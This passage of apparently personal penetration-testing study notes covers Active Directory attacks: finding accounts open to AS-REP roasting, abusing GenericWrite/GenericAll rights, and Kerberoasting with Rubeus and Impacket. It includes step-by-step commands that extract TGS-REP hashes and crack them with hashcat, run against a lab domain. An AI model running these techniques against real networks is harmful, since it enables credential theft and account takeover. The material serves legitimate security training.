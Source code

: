 ### Only identify users vulnerable to AS-REP

To identify users with the enabled AD user account option *Do not require Kerberos preauthentication*:
- Windows: (PV) `Get-DomainUser - PreauthNotRequired`
- Kali: `impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete`

### GenericWrite or GenericAll permissions

If we have *GenericWrite* or *GenericAll* permissions on another AD account, we could reset their passwords (but this would lock out the user) or modify the User Account Control value of the user to not require Kerberos preauthentication (targeted AS-REP roasting).

We should reset the User Account Control value of the user once we’ve obtained the hash.

## Kerberoasting

Background: 
- When a user wants to access a resource hosted by a Service Principal Name (SPN), the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted via the password hash of the SPN.
- When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN. 
- These checks are performed as a second step only when connecting to the service itself. 
- This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller. Then, we can crack the password of the service account.

### Kerberoasting with Rubeus from Windows
1. RDP to machine with domain account
2. Get TGS-REP hashes of all SPNs linked with the domain user:
   `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
3. Copy the output file of hashes to Kali
4. Check which Hashcat mode to use:
   `hashcat --help | grep -i "Kerberos"`
	- Output: `13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol`, since the hash starts with `$krb5tgs$23$`
5. Crack the hashes:
   `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Kerberoasting with Impacket from Linux
1. `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`
	- `corp.com/pete`: Provide domain user credentials
	- `-dc-ip`: IP of domain controller
	- `-request`: Obtain TGS-REP hashes of all SPNs linked with the domain user
2. Store the TGS-REP hash in a file and crack it with Hashcat:
   `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

> If impacket-GetUserSPNs throws the error `KRB_AP_ERR_SKEW(Clock skew too great)`, we need to synchronize the time of the Kali machine with the domain controller. We can first do `sudo timedatectl set-ntp 0` then use `ntpdate` or `rdate -n [target ip]` to do so.
